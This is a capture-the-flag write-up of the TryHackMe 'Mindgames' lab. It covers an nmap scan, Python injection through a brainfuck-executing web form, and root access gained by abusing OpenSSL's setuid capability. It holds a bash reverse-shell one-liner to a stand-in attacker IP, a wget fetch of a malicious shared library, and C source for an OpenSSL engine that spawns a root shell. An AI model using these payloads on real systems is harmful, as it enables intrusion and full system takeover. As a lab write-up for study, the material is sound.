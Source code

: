 ```yaml
---
layout: default
title : bvr0n - mindgames Write-up
---
```


_**Oct 05, 2020**_

[Mindgames](https://tryhackme.com/room/mindgames) Writeup

## Nmap Scan :
```
bvr0n@kali:~/CTF/THM/Mindgames$ nmap -sC -sV -Pn 10.10.149.6

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Page : 

Looks like we have some brainfuck, after decoding the first one it gives some python3 regular :
```
print("Hello, World")
```
But when submitting the brainfuck code in the bottom form, it looks like it executs everything in python, let's turn our text into brainfuck get a revershell with this : 
```
import os

os.system('bash -c "bash -i >& /dev/tcp/$ATTACKER_IP/8080 0>&1"')
```
And we got a reverse shell.

## Internal Enum :

Something caught my eyes when running linpeas :
```
Files with capabilities:
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep is writable
```
You can find out more about cap_setuid [HERE](https://man7.org/linux/man-pages/man3/cap_setuid.3.html) :

Now based on [GTFOBins](gtfobins.github.io/) : 
```
It loads shared libraries that may be used to run code in the binary execution context.
```


## Solution :

So in conclusion we need to create An OpenSSL Engine, [Check Here](https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/) :

This is the final script :
```
#include <openssl/engine.h>
#include <unistd.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
}


IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
```
bvr0n@kali:~$ gcc -fPIC -o ssl-foo.o -c ssl-foo.c 
bvr0n@kali:~$ gcc -shared -o ssl-foo.so -lcrypto ssl-foo.o
```
then we download it from the victim's machine :
```
mindgames@mindgames:/tmp$ wget $ATTACKER_IP:8000/ssl-foo.so
```
and run our little engine :
```
mindgames@mindgames:/tmp$ openssl engine -t `pwd`/ssl-foo.so
root@mindgames:/tmp# id
uid=0(root) gid=1001(mindgames) groups=1001(mindgames)
```

And we are ROOT!!

<br>
best regards

[bvr0n](https://linkedin.com/in/taha-el-ghadraoui-5921771a5)


<br>
[back to main()](../../index.md)

<br>
